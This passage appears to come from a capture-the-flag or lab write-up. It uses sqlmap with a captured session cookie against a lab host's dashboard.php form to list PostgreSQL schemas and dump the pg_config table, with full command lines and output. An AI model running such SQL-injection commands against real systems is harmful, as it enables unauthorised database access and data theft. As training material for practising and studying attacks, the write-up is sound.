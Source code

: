 There is an easier and automated way of doing this - using `sqlmap` we can get databases and more with single script call. Now, getting the schemas listing:

```txt
$ sqlmap -u 10.10.10.46/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch --dbs

[20:48:46] [INFO] fetching database (schema) names
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

Here I'm dumping the `pg_config` table in `pg_catalog` schema. `--batch` is used to accept any prompts `sqlmap` is making.

```txt
$ sqlmap -u 10.10.10.46/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch -D pg_catalog -T pg_config --dump

name,setting
BINDIR,/usr/lib/postgresql/11/bin
CC,gcc
CFLAGS,-Wall -Wmissing-prototypes -Wpointer-arith -Wdeclaration-after-statement -Wendif-labels -Wmissing-format-attribute -Wformat-security -fno-strict-aliasing -fwrapv -fexcess-precision=standard -Wno-format-truncation -Wno-stringop-truncation -g -g -O2 -fstack-protector-strong -Wformat -Werror=format-security -fno-omit-frame-pointer
CFLAGS_SL,-fPIC
CONFIGURE,"'--build=x86_64-linux-gnu' '--prefix=/usr' '--includedir=/usr/include' '--mandir=/usr/share/man' '--infodir=/usr/share/info' '--sysconfdir=/etc' '--localstatedir=/var' '--disable-silent-rules' '--libdir=/usr/lib/x86_64-linux-gnu' '--libexecdir=/usr/lib/x86_64-linux-gnu' '--disable-maintainer-mode' '--disable-dependency-tracking' '--with-icu' '--with-tcl' '--with-perl' '--with-python' '--with-pam' '--with-openssl' '--with-libxml' '--with-libxslt' 'PYTHON=/usr/bin/python' '--mandir=/usr/share/postgresql/11/man' '--docdir=/usr/share/doc/postgresql-doc-11' '--sysconfdir=/etc/postgresql-common' '--datarootdir=/usr/share/' '--datadir=/usr/share/postgresql/11' '--bindir=/usr/lib/postgresql/11/bin' '--libdir=/usr/lib/x86_64-linux-gnu/' '--libexecdir=/usr/lib/postgresql/' '--includedir=/usr/include/postgresql/' '--with-extra-version= (Ubuntu 11.5-1)' '--enable-nls' '--enable-integer-datetimes' '--enable-thread-safety' '--enable-tap-tests' '--enable-debug' '--enable-dtrace' '--disable-rpath' '--with-uuid=e2fs' '--with-gnu-ld' '--with-pgport=5432' '--with-system-tzdata=/usr/share/zoneinfo' '--with-llvm' '--with-systemd' '--with-selinux' 'MKDIR_P=/bin/mkdir -p' 'TAR=/bin/tar' 'CFLAGS=-g -O2 -fstack-protector-strong -Wformat -Werror=format-security -fno-omit-frame-pointer' 'LDFLAGS=-Wl,-Bsymbolic-functions -Wl,-z,relro -Wl,-z,now' '--with-gssapi' '--with-ldap' '--with-includes=/usr/include/mit-krb5' '--with-libs=/usr/lib/mit-krb5' '--with-libs=/usr/lib/x86_64-linux-gnu/mit-krb5' 'build_alias=x86_64-linux-gnu' 'CPPFLAGS=-Wdate-time -D_FORTIFY_SOURCE=2' 'CXXFLAGS=-g -O2 -fstack-protector-strong -Wformat -Werror=format-security'"
CPPFLAGS,-Wdate-time -D_FORTIFY_SOURCE=2 -D_GNU_SOURCE -I/usr/include/libxml2 -I/usr/include/mit-krb5
DOCDIR,/usr/share/doc/postgresql-doc-11
HTMLDIR,/usr/share/doc/postgresql-doc-11
INCLUDEDIR,/usr/include/postgresql
INCLUDEDIR-SERVER,/usr/include/postgresql/11/server
LDFLAGS,"-Wl,-Bsymbolic-functions -Wl,-z,relro -Wl,-z,now -L/usr/lib/llvm-7/lib -L/usr/lib/x86_64-linux-gnu/mit-krb5 -Wl,--as-needed"
LDFLAGS_EX,<blank>
LDFLAGS_SL,<blank>
LIBDIR,/usr/lib/x86_64-linux-gnu
LIBS,-lpgcommon -lpgport -lpthread -lselinux -lxslt -lxml2 -lpam -lssl -lcrypto -lgssapi_krb5 -lz -ledit -lrt -lcrypt -ldl -lm 
LOCALEDIR,/usr/share/locale
MANDIR,/usr/share/postgresql/11/man
PGXS,/usr/lib/postgresql/11/lib/pgxs/src/makefiles/pgxs.mk
PKGINCLUDEDIR,/usr/include/postgresql
PKGLIBDIR,/usr/lib/postgresql/11/lib
SHAREDIR,/usr/share/postgresql/11
```
